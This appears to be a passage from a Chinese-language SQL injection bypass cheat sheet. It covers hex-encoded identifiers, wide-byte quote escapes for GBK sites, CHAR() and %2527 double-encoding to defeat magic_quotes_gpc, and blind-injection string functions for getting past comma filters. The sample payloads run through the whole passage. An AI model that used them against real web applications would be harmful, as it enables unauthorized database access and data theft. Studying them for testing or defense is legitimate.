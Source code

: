 ```sql
select column_name  from information_schema.tables where table_name=0x7573657273;
```

- 宽字节

常用在web应用使用的字符集为`GBK`时，并且过滤了引号，就可以试试宽字节。

```
# 过滤单引号时
%bf%27 %df%27 %aa%27
12
%df\’ = %df%5c%27=縗’
```

- char

```
char编码
SELECT FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
%2527
主要绕过magic_quotes_gpc过滤，因为%25解码为%,结合后面的27也就是%27也就是'，所以成功绕过过滤。
```



# 过滤逗号绕过

sql盲注时常用到以下的函数：

- substr()
  - substr(string, pos, len):从pos开始，取长度为len的子串
  - substr(string, pos):从pos开始，取到string的最后
- substring()
  - 用法和`substr()`一样
- mid()
  - 用法和`substr()`一样，但是`mid()`是为了向下兼容`VB6.0`，已经过时，以上的几个函数的pos都是从1开始的
- left()和right()
  - left(string, len)和right(string, len):分别是从左或从右取string中长度为len的子串
- limit
  - limit pos len:在返回项中从pos开始去len个返回值，pos的从0开始
- ascii()和char()
  - ascii(char):把char这个字符转为ascii码
  - char(ascii_int):和ascii()的作用相反，将ascii码转字符

回到正题，如果waf过滤了逗号，并且只能盲注（盲注基本离不开逗号啊喂），在取子串的几个函数中，有一个替代逗号的方法就是使用`from pos for len`，其中pos代表从pos个开始读取len长度的子串
例如在`substr()`等函数中，常规的写法是

```sql
mysql> select substr("string",1,3);
+----------------------+
| substr("string",1,3) |
+----------------------+
| str                  |
+----------------------+
```
